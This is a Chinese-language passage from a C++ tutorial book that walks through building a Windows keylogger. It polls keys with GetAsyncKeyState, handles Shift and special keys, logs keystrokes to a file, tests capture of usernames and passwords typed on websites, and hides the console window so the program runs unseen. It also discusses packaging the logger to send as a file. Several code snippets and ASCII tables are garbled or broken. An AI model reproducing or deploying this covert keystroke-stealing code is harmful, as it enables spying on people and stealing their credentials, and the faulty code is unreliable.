在循环内部构建循环（嵌套循环）是非常重要的，因为键盘记录器内部会有大量的此类结构。下面的程序展示了如何在另一个循环内部构建循环并使其无限运行。

```cpp
#include <Winuser.h>

using namespace std;

int main() {
    char c;
    for (int i=0; i<3; i++) {
        for (int j=0; j<3; j++) {
            cout << "I am SECOND: " << j << endl;
        }
        cout << "I am FIRST: " << i << endl;
    }
}
```

在第11行，创建了一个 `char` 类型的变量，第13行开始第一个循环（`for` 循环）。在该循环的括号内，设置了条件来控制程序块的运行。创建了一个 `int` 类型的变量 `i` 并初始化为 0。只要 `i` 小于3，循环就会继续运行；即 `i` 将运行两次。`i++` 计数并记录程序完成的循环次数，一旦满足 `i < 3` 的条件就会停止。该循环的开始和结束由大括号定义，跨越了从第14行到第21行。

注意：大括号用于标记函数的开始和结束。

换句话说，第13行的 `for` 循环将开始，一旦开始，它将开始评估其内部列出的条件。如果结果为真（即如果 `i` 小于3），它将运行 `for` 循环大括号内的任何代码。

```cpp
for( int i=0; i<3 ; i++) {
    for( int j=0; j<3; j++) {
        cout << "I am SECOND :" << j << endl;
    }
    cout << "I am FIRST :" << i << endl;
}
```

在第15行和第18行之间，我们有另一个嵌套在第一个循环下的 `for` 循环。程序评估第15行的代码，只要结果为真，它就会一直打印第17行的语句，直到结果为假——当 `j` 大于或等于3——它将停止，退出第二个循环并进入第一个循环，然后再次打印第20行的语句。如果第一个条件再次评估为真，第二个循环将再次运行，如此反复3次（0-2 = 0, 1, 2次）。请结合程序的输出研究下面的程序。

```cpp
#include <iostream>
#include <windows.h>
#include <Winuser.h>
4
5 using namespace std;
6
7
8 int main()
9 {
10
11 char c;
12
13 for (int i=0; i<3; i++)
14 {
15 for (int j=0; j<3; j++)
16 {
17 cout << "AM SECOND: " << j << endl;
18 }
19
20 cout << "AM FIRST: " << i << endl;
21 }
```



现在你已经理解了嵌套结构的工作原理，让我们直接进入它在键盘记录器上的应用。

```cpp
#include <iostream>
#include <windows.h>
#include <Winuser.h>

using namespace std;

int main() {
    char c;
    for(;;) {
        for(c=8; c<=222; c++) {
            if(GetAsyncKeyState(c) == -32767) {
                ofstream write("Record.txt", ios::app);
                write << c;
            }
        }
    }
}
```

直接看上面的图，第12行包含一个 `for` 循环。括号内的分号表示该循环是无限的，即设置为连续运行而不停止。第14行是一个嵌套循环，其条件指定了程序能够读取的字符范围。这个字符范围获取自 ASCII。不需要在脑中记住 ASCII 表，可以简单从网上引用。下面是一个 ASCII 代码表示例：

### 字符

| | | | | | | | | | | | |
|---|---|---|---|---|---|---|---|---|---|---|---|
| 00 | NULL (空字符) | 32 | 64 | @ | 96 | 128 | 160 | 192 | 224 |
| 01 | SOH (帧头) | 33 | 65 | A | 97 | 129 | 161 | 193 | 225 |
| 02 | STX (文本开始) | 34 | 66 | B | 98 | 130 | 162 | 194 | 226 |
| 03 | ETX (文本结束) | 35 | 67 | C | 99 | 131 | 163 | 195 | 227 |
| 04 | EOT (传输结束) | 36 | 68 | D | 100 | 132 | 164 | 196 | 228 |
| 05 | ESC (逸逸) | 37 | 69 | E | 101 | 133 | 165 | 197 | 229 |
| 06 | ACK (确认) | 38 | 70 | F | 102 | 134 | 166 | 198 | 230 |
| 07 | BEL (响铃) | 39 | 71 | G | 103 | 135 | 167 | 199 | 231 |
| 08 | BS (退格符) | 40 | 72 | H | 104 | 136 | 168 | 200 | 232 |
| 09 | HT (制表符) | 41 | 73 | I | 105 | 137 | 169 | 201 | 233 |
| 10 | LF (换行符) | 42 | 74 | J | 106 | 138 | 170 | 202 | 234 |
| 11 | VT (垂直表符) | 43 | 75 | K | 107 | 139 | 171 | 203 | 235 |
| 12 | FF (换页符) | 44 | 76 | L | 108 | 140 | 172 | 204 | 236 |
| 13 | CR (回车符) | 45 | 77 | M | 109 | 141 | 173 | 205 | 237 |
| 14 | SO (正出符) | 46 | 78 | N | 110 | 142 | 174 | 206 | 238 |
| 15 | SI (正入符) | 47 | 79 | O | 111 | 143 | 175 | 207 | 239 |
| 16 | DC1 (设备控制1) | 48 | 80 | P | 112 | 144 | 176 | 208 | 240 |
| 17 | DC2 (设备控制2) | 49 | 81 | Q | 113 | 145 | 177 | 209 | 241 |
| 18 | DC3 (设备控制3) | 50 | 82 | R | 114 | 146 | 178 | 210 | 242 |


| 19 | DC4 (设备控制4) | 51 | 83 | S | 115 | 147 | 179 | 211 | 243 |
| 20 | DC5 (设备控制5) | 52 | 84 | T | 116 | 148 | 180 | 212 | 244 |
| 21 | NAK (否定确认) | 53 | 85 | U | 117 | 149 | 181 | 213 | 245 |
| 22 | ETB (块结束) | 54 | 86 | V | 118 | 150 | 182 | 214 | 246 |
| 23 | ET (传输结束) | 55 | 87 | W | 119 | 151 | 183 | 215 | 247 |
| 24 | FS (文件分隔符) | 56 | 88 | X | 120 | 152 | 184 | 216 | 248 |
| 25 | EM (媒体结束) | 57 | 89 | Y | 121 | 153 | 185 | 217 | 249 |
| 26 | SUB (替换符) | 58 | 90 | Z | 122 | 154 | 186 | 218 | 250 |
| 27 | ESC (逸逸) | 59 | 91 | [ | 123 | 155 | 187 | 219 | 251 |
| 28 | FS (文件分隔符) | 60 | 92 | ] | 124 | 156 | 188 | 220 | 252 |
| 29 | GS (分组分隔符) | 61 | 93 | ~ | 125 | 157 | 189 | 221 | 253 |
| 30 | US (单元分隔符) | 62 | 94 | | 126 | 157 | 190 | 222 | 254 |

每个数字代表一个数字。我们在键盘记录器中启用的头文件第 `14` 行包含了 `8` 到 `222` 之间的字符。这个字符范围获取自 `ASCII`。不需要在脑中记住 `ASCII` 表，可以简单从网上引用。

现在我们似乎完成了原始的键盘记录器，并准备好运行它。然而，如果我们按照这种方式运行程序将会得到错误消息。粗略来看，你认为什么会导致错误？

头文件未能附加启用程序运行/执行我们代码中指定的函数的头文件，即将接收到的输入发送到文件的函数。此功能的头文件（允许我们使用 `ofstream` 函数）是 `#include <iostream>`。现在，代码顶部有以下文件头文件，程序将成功运行：

```cpp
"Keylogger.cpp"
1 #include <iostream>
2 #include <windows.h>
3 #include <Winuser.h>
4 #include <fstream>
```


在上面的图中，可以看到浏览器已打开并访问了 `Yahoo` 网站。现在，我们输入 `USERNAME` 和 `PASSWORD`。在这样做之后，为了确保我们的记录器（`Keylogger`）正在运行，我们进入默认位置。屏幕上显示了我们在 `Yahoo.com` 输入的内容（然而，`yahoo.com` 并没有出现，我们将考虑所有字符，并为我们的记录器添加更多功能）。

`USERNAME` 和 `PASSWORD` 也被记录在内。

我们成功地编写了一个非常简单的记录器，但它缺少一些 `filters`，这可以过滤掉像我们在输入时产生的空格或制表键之类的字符。我们将继续为它添加其他功能。

我们构建的记录器并不完美，原因在于它记录信息的方式。当我们运行它时，发现它无法处理空格和制表键，只是将它们保存了。我们可以通过利用 `switch` 语句，让记录器更好地处理输入。让我们立即开始！为了让我们的记录器能够处理空格、制表键和其他字符，我们需要在引入 `switch` 语句之前，将之前编写的代码分组到一个函数 `void log()` 下，以便我们后续操作。如下所示，我们的分组完成：

```cpp
#include <iostream>
#include <windows.h>
#include <user.h>
#include <fstream>

using namespace std;

void log();

int main() {
    log();
    return 0;
}

void log() {
    char c;

    for(;;;)
    {
```

```cpp
for( c=8; c<=222; c++)
{
    if(GetAsyncKeyState(c) == -32767)
    {
        ofstream write("Record.txt", ios::app);
        write << c;
    }
}
```

在第 `8` 行创建了名为 `log` 的函数来存放之前的代码。该函数不返回值。此外，在 `main` 函数的第 `8` 行调用了它，以便我们可以随时使用它而无需重新编写。重新测试程序，它的运行方式与之前一样。

结合 `switch` 语句：

参考上面的图：

- 删除第 `27` 行的 `write << c;`。稍后我们将把它放回作为 `default` 情况，这样当我们的条件语句都为 `false` 时，它就会执行。首先让我们将其取出，以便将其放在合适的地方。
- 如第 `28` 行所示，编写 `switch` 语句，并将变量 `c` 中发生的任何情况（我们之前创建的）传递给 `switch`，进入的内容将由 `switch` 处理。
- 我们创建一个分支（不同条件之一），例如 `case 8`。如果变量 `c` 的值为 `8`（如 `ASCII` 中的 `case 8`），则意味着它是退格键。

| | | |
|---|---|---|
| `00` | `NULL` | (空字符) |
| `01` | `SOH` | (头部起始) |
| `02` | `STX` | (文本起始) |
| `03` | `ETX` | (文本结束) |
| `04` | `EOT` | (传输结束) |
| `05` | `ENQ` | (查询) |
| `06` | `ACK` | (确认) |
| `07` | `BEL` | (响铃) |
| `08` | `BS` | (退格) |
| `09` | `HT` | (水平制表符) |
| `10` | `LF` | (换行符) |

- 我们根据数字代表的含义继续利用 `ASCII` 代码中的不同数字添加 `case`，这样我们的记录器就可以关联用户输入的几乎任何字符。

```cpp
for( c=8; c<=222; c++)
{
    if(GetAsyncKeyState(c) == -32767)
    {
        ostream write("Record.txt", ios::app);
    }
    switch(c)
    {
        case 8: write << "<Backspace>";
        case 27: write << "<Esc>";
        case 127: write << "<DEL>";
        case 32: write << " ";
        case 13: write << "<Enter>\n";
        default: write c;
    }
}
```

换句话说，第 `22` 行到 `35` 行的语句如下：

第 `22` 行涵盖了 `ASCII` 代码中 `8` 到 `222` 之间的值。第 `24` 行有一个条件 `if` 语句，用于检查是否有按键中断（即用户键盘上是否有任何键被按下），如果此求结果为 `true`，则第 `26` 行的函数应该记录它，并存储在与 `Record.text` 在同一行定义的文件中。第 `28` 行的 `switch` 语句将变量 `c` 中发生的任何情况（我们之前创建的）传递给 `switch`，进入的内容将由 `switch` 处理。让我们创建一个分支（不同条件之一），例如 `case 8`。如果变量 `c` 的数值为 `8`（如 `case 8` 所示），在 `ASCII` 中意味着它是退格键。

# 第17 章：大写字母和小写字母

正如大写字母和小写字母对英语语言同样重要，它们对通用编程也同样。我们需要使用 `Shift` 键的状态来区分这两个字母；我们还将编写小写字母。这是我们要告诉程序的内容。默认情况下，上面的程序会写大写字母，因此我们需要...

```cpp
if( (key>64)&&(key<91) && !(GetAsyncKeyState(0x10)) )
{
    key+=32;
    write << key;
    write.close();
    break;
}
else if((key>64)&&(key<91))
{
    write << key;
    write.close();
    break;
}
```

`Key += 32` 等于 `Key = Key + 32`。

上图所示的代码块是为了区分大写字母和小写字母而创建的。


第 30 行包含一个 `if` 语句，其基本含义是：如果 `key` 的值大于 64（所有 ASCII 码值）但小于 91，且 `Shift` 键未按下（写为 `(GetAsyncKeyState(0x10))`——其中 `0x10` 是 `Shift` 键的十六进制表示），则将之前的 `key` 值加上 32。值得注意的是，`if` 条件语句中的 64 到 91 范围并不是随机选择的，而是刻意为之，因为字母表中的字母在 ASCII 表中正好处于这个范围内。

从下图所示的 ASCII 码片段中，通过一些简单的数学计算，我们就能明白为什么在第 31 行的条件 `if` 语句中选择给 `key` 的值加上 32。

| Dec H Oct Html Char | Dec H Oct Html Char | Dec H Oct Html Char |

|---|---|---|---|---|---|---|---|---|---|---|---|

| 0 0 000 | `NUL` | 43 2B 05 | &#43; `+` | 86 56 126 | &#86; `V` |

| 1 1 001 | `SOH` | 44 2C 05 | &#44;; | 87 57 127 | &#87; `W` |

| 2 2 002 | `STX` | 45 2D 05 | &#45; | 88 58 130 | &#88; `X` |

| 3 3 003 | `ETX` | 46 2E 05 | &#46; | 89 59 131 | &#89; `Y` |

| 4 4 004 | `EOT` | 47 2F 05 | &#57; | 90 5A 132 | &#90; `Z` |

| 5 5 005 | `ENQ` | 48 30 06 | &#48; `O` | 91 5B 133 | &#91; `[` |

| 6 6 006 | `ACK` | 49 31 06 | &#49; `I` | 92 5C 134 | &#92; `]` |

| 7 7 007 | `BSE` | 50 32 06 | &#58; | 93 5D 135 | &#93; `\` |

| 8 8 010 | `BS` | 51 33 06 | &#59; | 94 5E 136 | &#94; `^` |

| 9 9 011 | `TAB` | 52 34 06 | &#54; | 95 5F 137 | &#95; `_` |

| 10 `A` 012 | `LF` | 53 35 06 | &#53; | 96 60 140 | &#96; `;` |

| 11 `B` 013 | `VT` | 54 36 06 | &#56; | 97 61 141 | &#97; `a` |

| 12 `C` 014 | `FF` | 55 37 06 | &#57; | 98 62 142 | &#98; `b` |

| 13 `D` 015 | `CR` | 56 38 07 | &#58; | 99 63 143 | &#99; `c` |

| 14 `E` 016 | `SO` | 57 39 07 | &#57; | 100 64 144 | &#100; `d` |

| 15 `F` 017 | `SI` | 58 3A 07 | &#58; | 101 65 145 | &#101; `e` |

| 16 `J` 020 | `DL` | 59 3B 07 | &#59; | 102 66 146 | &#102; `f` |

| 17 `G` 021 | `DC1` | 60 3C 07 | &#60; | 103 67 147 | &#103; `g` |

| 18 `W` 022 | `DC2` | 61 3D 07 | &#61; | 104 68 148 | &#104; `h` |

| 19 `A` 023 | `DC3` | 62 3E 07 | &#62; | 105 69 149 | &#105; `i` |

| 20 `D` 024 | `DC4` | 63 3F 07 | &#63; | 106 6A 150 | &#106; `j` |

| 21 `E` 025 | `N` | 64 40 06 | &#64; `O` | 107 6B 151 | &#107; `k` |

| 22 `M` 026 | `SYN` | 65 41 01 | &#65; `A` | 108 6C 152 | &#108; `l` |

| 23 `G` 027 | `ESC` | 66 42 10 | &#66; `B` | 109 6D 153 | &#109; `m` |

| 24 `N` 030 | `CAN` | 67 43 13 | &#67; `C` | 110 6E 154 | &#110; `n` |

| 25 `O` 031 | | 68 44 04 | &#68; `D` | 111 6F 155 | &#111; `o` |

| 26 `L` 032 | | 69 45 05 | &#69; `E` | 112 70 156 | &#112; `p` |

| 27 `B` 033 | | 70 46 07 | &#70; `F` | 113 71 157 | &#113; `q` |

| 28 `C` 034 | `FS` | 71 47 10 | &#71; `G` | 114 72 158 | &#114; `r` |

| 29 `D` 035 | `GS` | 72 48 11 | &#72; `H` | 115 73 159 | &#115; `s` |

| 30 `E` 036 | `RS` | 73 49 11 | &#73; `I` | 116 74 164 | &#116; `t` |

| 31 `F` 037 | `US` | 74 4A 12 | &#74; `J` | 117 75 165 | &#117; `u` |

我们在第 31 行的条件语句是：如果 `key` 大于 64... 意味着在编码期间，`key` 将从数字 65 读取。现在看 ASCII 表中的 65 这一列。65 代表大写字母。现在，如果给 97 加上 32。看 ASCII 表中的数字 97 列，97 代表小写字母吗？是的！记住，默认键盘记录器将使用大写字母，并在第 31 行和 32 之间，如果 `Shift` 键未按下（为了大写），则应该加上 32（根据 ASCII 表将其转换为小写）。现在我们知道为什么选择加上数字 32 了。你可以从 ASCII 表中选取代表任何大写字母的数字，给它加上 32，看看是否会变成小写字母。而第 34 行的语句关闭文件：第 35 行仅用于运行，所以不要检查其他内容。我们以后可能会删除它，但让我们先看看它在程序中的运行情况。

```cpp
if( (key>64)&&(key<91) && !(GetAsyncKeyState(0x10)) )
{
    key+=32;
    write << key;
    write.close();
    break;
}
else if((key>64)&&(key<91))
{
    write << key;
    write.close();
    break;
}
else
{
    // ...
}
```

综合分析，第 31 行到 42 行表示：如果程序中的值范围落在 ASCII 码字母范围内，且 `Shift` 键未按下（为了大写），则将之前的值加上 32 以转换为小写，并将这种情况写入文件；除非 `Shift` 键未按下，否则输入应为大写。下图显示了程序在测试运行期间的输出：

### Microsoft Windows (Version 6.3.0)

(c) 2013 Microsoft Corporation. All rights reserved.

```cmd
C:\Users\Creator>HEYDOYOUWORK
```


使用了命令行提示符（只要有输入，`Keylogger` 可以在任何地方测试）来测试程序，可以看出它起作用了。注意，我们刚刚分析的程序是为了区分大写字母和小写字母。在上面的测试中，我们写的每个单词之间没有留空格，这是因为我们使用了多行注释来显示代码中处理空格和类似功能所需的处理，如果我们使用形式，输入将会杂乱无章。我们这里的意图是处理大写和小写字母。此外，这只是实现大小写字母区分的方法之一，有多种方法。其中某些可能比这个更好，尽管去尝试，这有助于丰富你的知识。

过滤字符：

在这里，我们将看到如何过滤掉所有字符。这很重要，因为在大多数情况下，人们倾向于输入某些字符如：星号、感叹号、英镑符号等作为密码，而这些符号大多数情况下是通过两种或更多情况组合得到的。过滤将使我们的 `Keylogger` 识别用户何时按了这些键。我们需要处理这些事情，但大问题是：怎么做？想想这些方法，你在键盘上按什么来获得感叹号？这取决于你使用的键盘，但对于感叹号来说它是通用的；`Shift+1` 就能得到它。我们需要一个语句来识别 `Shift` 键的状态，如果 `Shift` 键按下且随后的值是键盘上数字 1 的 ASCII 值，请不要记录 1，而是记录“感叹号”。

让我们解决这个问题。仅使用 `if` 语句不是解决此问题的最佳方法，但将其与 `switch` 语句结合使用非常棒，因为有助于提高效率。结合我们之前编写的其他代码，添加下图中第 43 行到 50 行的最新代码，使我们的 `Keylogger` 能够检测到感叹号以及用户可能在密码使用的其他符号。


```cpp
break;
} elseif(( (key>64)&&(key<91) ))
{
    write << key;
    write.close();
    break;
}
else
{
    switch(key)
    {
        case 49:
        {
            if( GetAsyncKeyState(0x10) )
                write << "!";
        }
    }
}
```

```
C:\Users\Creator>!!!!!!!!!!!!!!!!!!!!!!!!!!HEYthere
```

如上图所示，正利用引号以及一个短备注来运行和测试键盘记录器（Keylogger），通过命令提示符窗口输入“Heythere”符号，以查看它是否会识别感叹号并将其发送我们定义的项目文件（`!`），或者仅仅向我们返回其他结果。

`HEYthere`

```
case 49:
  if (GetAsyncKeyState(0x10) )
    write "!";
```

```
C:\Users\Creator>!!!!!!!!!!!!!!!!!!!!!!!!!!HEYthere
```

太棒了！如图所示，我们的键盘记录器现在按照感叹号的真实含义写入感叹号，而不仅仅是某个有趣的代理符号。*高亮显示的语句是之前测试过的内容，它并不是最近测试结果的组成。*

从现在开始，我们只需要继续在 `switch` 语句的基础上构建，添加越来越多的 `cases` 来表示我们希望键盘记录器能够解释的所有字符。这将允许我们根据我们通常喜好的键盘来定制键盘记录器，因此即使一个人的按键配置不同，虽然会产生影响，但影响并不大。

到为止，我们已经分块编写了代码，从检查 `case` 的块、字符合并块到记录块等，并将这些具有不同功能的块组合在一起，实现一个良好的键盘记录器的单一目标。现在，让我们继续 `case` 的合并（过滤）以及更好的通用代码布局。

## 第 18 章。包含其他字符

我们在每个检查的末尾加入了更多的 `break` 语句，因此如果条件语句评估为 `true`，程序应该跳出循环并处理下一个任务。此外，在 `else` 部分，我们有带有下方 `cases` 的 `switch` 语句；对于我们在下图中看到的所有字符，范围涵盖从括号、反斜杠、正斜杠、感叹号等所有字符，它们的编写方式让程序能够判断只是在没有按下 Shift 键的情况下按下了值，因此它应该打印该值而不是符号。

```
47                 {
48             case 48:
49             {if (GetAsyncKeyState(0x10) )
50                 write << "!";
51             else
52                 write << "0";
53             }
54             break;
55             case 49:
56             {
57                 if (GetAsyncKeyState(0x10) )
58                 write << "!";
59             else
60                 write << "1";
61             }
62             break;
63             case 50:
64             {
65                 if (GetAsyncKeyState(0x10) )
66                 write << "\"";
```

例如，在第 48 行，我们编写的 `case 48` 在 ASCII 表中代表数字 0。

| ct | Html Char | Dec | Hex | Oct | Html | Html Char | Dec | Hex | Oct |
|---|---|---|---|---|---|---|---|---|---|
| 00 | NUL | 43 | 2B | 05 | &#43; | + | 86 | 56 | 126 |
| 01 | SOH | 44 | 2C | 05 | &#44; | | 87 | 57 | 127 | |
| 02 | STX | 45 | 2D | 05 | &#45; | | 88 | 58 | 130 | |
| 03 | ETX | 46 | 2E | 05 | &#46; | | 89 | 59 | 131 | |
| 04 | EOT | 47 | 2F | 05 | &#47; | | 90 | 5A | 132 | |
| 05 | ENQ | 48 | 30 | 05 | &#48; | | 91 | 5B | 133 | |

所以，当用户按下带有数字 0 的键同时按下右括号时，取决于 Shift 是否被按下（根据第 50 行的语句），将记录右括号 `")"` 或数字 0。检查第 48 行和 52 行的代码。通过第 50 行的 `GetAsyncKeyState(0x10)` 函数，程序会验证是否按下了 Shift 键；如果是且同时按下 0 和右括号，则会被记录；如果没有，则将写入 0。通过第 55 行的 `break` 语句，如果位于第 48 行和 54 行的 `if` 条件评估为真，程序暂时不会去检查其他 `cases`。基本上，对于程序中其余 `cases`（即判断用户输入的是数字还是与键盘上各个数字共用按键的符号），我们遵循与处理 `0` 或 `右括号` `)` 相同的逻辑。

下图显示了这些 `cases` 组合在一起后的样子：

| | | | | | | | | | |
|---|---|---|---|---|---|---|---|---|---|
| + | | % | ^ | & | | | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 0 |

```
case 48:
{
    if (GetAsyncKeyState(0x10) )
        write << ")";
    else
        write << "0";
}
break;
case 49:
{
    if (GetAsyncKeyState(0x10) )
        write << "!";
    else
        write << "1";
}
break;
case 50:
{
    if (GetAsyncKeyState(0x10) )
        write << "\";
    else
        write << "2";
}
break;
case 51:
{
    if (GetAsyncKeyState(0x10) )
        write << "£";
    else
        write << "3";
}
break;
case 52:
{
    if (GetAsyncKeyState(0x10) )
        write << "$";
    else
        write << "4";
}
break;
case 53:
{
    if (GetAsyncKeyState(0x10) )
        write << "%";
    else
        write << "5";
}
break;
case 54:
{
    if (GetAsyncKeyState(0x10) )
        write << "^";
    else
        write << "6";
}
break;
case 55:
{
    if (GetAsyncKeyState(0x10) )
        write << "&";
    else
        write << "7";
}
break;
```

```
case 56:
{
    if (GetAsyncKeyState(0x10) )
        write << "*";
    else
        write << "8";
}
break;
case 57:
{
    if (GetAsyncKeyState(0x10) )
        write << "(";
    else
        write << "9";
}
break;
```

现在我们已经整合了更多的 `cases` 来覆盖数字和符号，让我们继续测试它们是否正常工作。


```cpp
126 }
127 break;
128 case VK_SPACE:
129 write << " ";
130 break;
131 case VK_RETURN:
132 write << "\n";
133 break;
134 case VK_TAB:
```


135 write << " ";

136 break;

137 case VK_BACK:

138 write << "<Backspace>";

139 break;

140 case VK_ESCAPE:

141 write << "<Esc>";

142 break;

143 case VK_DELETE:

144 write << "<Delete>";

145 break;

在第 127 行到 145 行之间，我们加入了许多非常重要的代码，如上面所示的退格键（`backspace`）、删除键（`delete`）、退出键（`escape`）等。

如所观察，虚拟键不需要 `if` 语句或大括号，它们仍然可以正常工作。

让我们对我们的键盘记录器（`Keylogger`）进行一次现实测试，看看它的性能如何，以及日志文件的可读性会有提高。

```cpp

{

  break;

  case VK_BACK:

    c:\Users\Creator>Password blabablatralala

    Password is not recognized as an internal command or batch file.

}

User <Backspace> name tralala
Password blabablatralala
```

如上所示，我们再次使用命令行窗口对键盘记录器进行了测试，以评估其功能。正如你可能已经注意到的，它显示用户在输入用户名的过程中使用了一次退格键。所以你可以看到我们的日志文件更具可读性。

现在让我们在浏览器中测试我们的键盘记录器，以确定它在那里是否也能正常工作。

用于登录 `Ubuntu` 上所有内容的账户

```
Ubuntu Forums · 使用 Ubuntu One 登录

请输入您的邮箱：

USERNAME

我是一个新的 Ubuntu 用户

我忘记了我的用户名和密码：

**********
```

我们访问了几个网站，最后停留在 `Ubuntu` 论坛，我们在那里输入了用户名和密码。如果我们的键盘记录器是好用的，它应该从我们第一次打开浏览器开始就记录我们的击键。让我们看看它是否做到了。

`udemy`

`gmail`

`pleaseMakesureYouhaveApermissiontodois`

`ubn forums`

`heythere<Backspace><BackSpace><Backspace><BackSpace<Backspace><BackSpace>USERNAMEPASSWORD`

完美！我们的键盘记录器运行得非常好，因为它告诉我在最后尝试登录 `Ubuntu` 论坛之前，我访问了 `Udemy` 和 `Gmail`。

# 第 19 章 隐藏键盘记录器控制窗口

基本上，我们在键盘记录器中加入了很多功能，可以说我们已经完成了，然而，在我们说完成键盘记录器之前，还有两件重要的事情要做。第一个是：创建一个键盘记录器的发布版本，以便将其安装到 `CD` 上或作为文件发送；第二个是：隐藏文件。我们还将看到键盘记录器的一个问题，这个问题在 `eclipse` 环境内运行时是无法看到的。

以下是创建键盘记录器发布版本的步骤：

- 既然程序在编辑器中编写得很好，请点击 `eclipse` 环境左上角的“锤子”图标。从出现的下拉菜单中选择“`debug`”，然后选择“`release`”。

```cpp
1 #include <iostream>
2 #include <windows.h>
3 #include <Winuser.h>
4 #include <fstream>
5
6 using namespace std;
7
8 void log();
```

- 确保键盘记录器没有运行以避免出现错误消息。然后，选择“`build`”或使用 `ctrl + s` 实现相同的目的。
- 打开文件管理器并进入我们的工作区。点击名为“`Keylogger`”的项目名称并打开它。在“`keylogger`”文件夹中，我们有一个调试版本、一个发布版本和其他一些文件。现在，我们键盘记录器的发布版本已准备好执行。

| Keylogger | | | | | |
| :--- | :--- | :--- | :--- | :--- | :--- |
| Local Disk (C:) > Users > Creator > workspace > Keylogger > | | | | | |
| Desktop | settings | 30/06/2015 23:54 | File | folder | |
| Downloads | Debug | 01/08/2015 16:41 | File | folder | |
| Recent places | Release | 01/08/2015 16:42 | File | folder | |
| | src | 30/06/2015 23:47 | File | folder | |
| | cproject | 30/06/2015 23:54 | CPROJECT | | |
| | project | 30/06/2015 23:47 | PROJECT | | |
| | Record.txt | 01/08/2015 15:50 | Text | Doc | |
| This PC | | | | | |
| Desktop | | | | | | |
| Documents | | | | | | |
| Downloads | | | | | | |
| Music | | | | | | |

### 隐藏键盘记录器

点击 `Keylogger.exe`（执行文件），主屏幕上会出现一个保存用户击键的黑色窗口，它看起来如下所示：



这个黑色窗口会将我们按下的任何键记录到 `RECORD.txt` 中，但这完全不妙，因为任何在屏幕上看到这种显示的人都会觉得很奇怪。你认为一台典型的电脑会做什么？可能会按下 `X`（关闭按钮），然后就结束了；你的键盘记录器停止运行，你所有的努力都白费了。

然而，有一种方法可以隐藏这个窗口。我们可以通过在代码创建一个函数——该函数将隐藏整个程序。让我们先给这个函数起一个名字，帮助我们从代码内部识别它，以便在需要时随时引用它，例如：`hide`。

```cpp
8 void log();
9 void hide();
10
11 int main()
12 {
13 hide();
14 log();
15 return 0;
16 }
17
```

在创建隐藏键盘记录器的函数时，我们需要先在 `main` 函数外部创建一个函数，然后在它（`main` 函数）内部调用它；我们还需要创建一个函数

```cpp
179 void hide()
180 {
182   HWND stealth;
183   AllocConsole();
184   stealth=FindWindowA("Console",NULL);
185   ShowWindow(stealth,0);
186 }
```


在 `182` 行，创建一个名为 `stealth` 的句柄，用于处理 `FindWindowA` 函数的窗口。在 `185` 行，将获取并存储的键盘记录器详情设置为 `0`，这意味着它不应该显示。

完成这些后，通过重新构建并发布键盘记录器作为可执行文件，我们获得了良好的结果。键盘记录器不再在屏幕上显示窗口，甚至你都看不到它正在运行。确认你的代码是否运行可能会是一个问题，但检查它的方法是在记事本上写任何内容。之后，打开你的工作区以及 `Record.txt` 文件，如果你的击键被保存了，说明你的键盘记录器工作正常。

如果你到了这里，非常祝喜你！

最后，我们来到了本课程的结束，本课程演示了如何构建键盘记录器。希望现在制作你自己的键盘记录器对你来说不再是一个不可完成的任务，而是一个可以轻松完成的任务。

尽管我们构建的键盘记录器可能不是那里最先进的，或者没有你期望键盘记录器拥有的超级功能，但是通过你构建这里这些内容所积累的知识，制作具有摄像头激活、屏幕截取等其他酷炫功能的对你来说并不是问题。

此外，如果你遵循了本课程，预计你已经相当熟悉 C++ 编程语言、其语法、工作原理，并且能够编写除你刚刚学习的键盘记录器之外的其他程序。

继续练习、研究并解决你在过程中遇到的问题，你将会取得巨大的进步。

### 比特币巨鲸赠送书籍

请在下方找到赠送书籍的链接


书籍链接

### Alan T. Norman 的其他书籍

加密货币交易专业


初学者比特币精通


### 加密货币投资圣经

#### 加密货币投资圣经

关于区块链、挖矿、交易、`ICO`、以太坊平台、交易所、投资顶级加密货币以及赚钱的完美策略的终极指南


ALAN T. NORMAN

### 区块链技术详解


### 攻防：Kali Linux 与无线黑客终极指南

